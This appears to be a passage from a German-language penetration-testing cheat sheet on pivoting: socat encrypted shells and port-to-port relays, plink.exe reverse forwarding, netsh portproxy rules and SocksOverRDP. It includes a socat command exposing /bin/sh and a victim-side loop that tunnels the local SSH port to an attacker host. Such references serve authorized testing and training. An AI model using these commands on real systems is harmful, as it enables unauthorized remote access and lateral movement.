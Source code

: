 ```bash
attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt
```
### Remote Port2Port

Verbinden Sie den lokalen SSH-Port (22) mit dem 443-Port des Angreiferhosts
```bash
attacker> sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost
victim> while true; do socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ; done # Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Connects to the ssh of the victim
```
## Plink.exe

Es ist wie eine Konsolen-PuTTY-Version (die Optionen sind sehr ähnlich zu einem ssh-Client).

Da dieses Binary auf dem Opfer ausgeführt wird und es ein ssh-Client ist, müssen wir unseren ssh-Dienst und Port öffnen, damit wir eine umgekehrte Verbindung haben können. Dann, um nur einen lokal zugänglichen Port auf einen Port in unserer Maschine weiterzuleiten:
```bash
echo y | plink.exe -l <Our_valid_username> -pw <valid_password> [-p <port>] -R <port_ in_our_host>:<next_ip>:<final_port> <your_ip>
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Local port 9090 to out port 9090
```
## Windows netsh

### Port2Port

Sie müssen ein lokaler Administrator sein (für jeden Port)
```bash
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
# Example:
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.10.10 connectport=4444
# Check the port forward was created:
netsh interface portproxy show v4tov4
# Delete port forward
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```
## SocksOverRDP & Proxifier

Sie müssen **RDP-Zugriff über das System** haben.\
Herunterladen:

1. [SocksOverRDP x64 Binaries](https://github.com/nccgroup/SocksOverRDP/releases) - Dieses Tool verwendet `Dynamic Virtual Channels` (`DVC`) aus der Remote Desktop Service-Funktion von Windows. DVC ist verantwortlich für **das Tunneln von Paketen über die RDP-Verbindung**.
2. [Proxifier Portable Binary](https://www.proxifier.com/download/#win-tab)

